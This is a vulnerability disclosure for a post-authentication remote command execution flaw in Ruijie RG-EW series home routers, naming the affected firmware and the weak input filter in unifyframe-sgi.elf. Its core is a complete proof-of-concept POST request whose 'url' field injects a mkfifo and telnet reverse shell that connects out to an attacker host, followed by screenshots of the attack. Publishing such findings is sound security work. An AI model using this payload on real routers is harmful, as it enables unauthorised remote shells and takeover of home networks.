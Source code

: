 # Regarding the Post-Authorization RCE in Ruijie Home Router EW Series Devices
Reported by:Sheep
### Affected Versions:

- RG-EW5100BE PRO latest version EW_3.0B11P280_EW5100BE-PRO_12183019
- Theoretically applies to all EW series devices

Download link: https://www.ruijie.com.cn/fw/rj-cp-ew5100bepro/

# Overview

**In the Ruijie RG-EW series routers, there exists an authorization-based command injection vulnerability by sending a POST request containing a specific URL field to /cgi-bin/luci/api/cmd.**

# Vulnerability details

**Under /usr/sbin/unifyframe-sgi.elf**

![image-20250921000358833](https://cdn.jsdelivr.net/gh/s1nec-1o/photo@main/img/202509222146491.png)

**For the url field in the data field, only** `$(` **and** `<` **were filtered, yet command execution still occurred afterwards.**

![image-20250921000536168](https://cdn.jsdelivr.net/gh/s1nec-1o/photo@main/img/202509222146493.png)

# POC

Send the following POST request to `/cgi-bin/luci/api/cmd`.

```url
POST /cgi-bin/luci/api/cmd?auth=24fde8726283b2b2e656f2f438751d13 HTTP/1.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6,zh-HK;q=0.5
Cookie: SN=a55fa66d7c919385ee10997fadb8c379; __APP_LANG__=zh_cn

{
    "method": "devSta.get",
    "params": {
        "module": "123",
        "from_url": 1,
        "data" : {"kkk":"abcd","url": "192.168.121.160\" -o /dev/null; mkfifo /tmp/test;telnet 192.168.121.138 6666 0</tmp/test|/bin/sh > /tmp/test ; echo \""}
              }
}
```

# Attack Demonstration

![image-20250922214553006](https://cdn.jsdelivr.net/gh/s1nec-1o/photo@main/img/202509222146494.png)


![image-20250922214609353](https://cdn.jsdelivr.net/gh/s1nec-1o/photo@main/img/202509222146495.png)


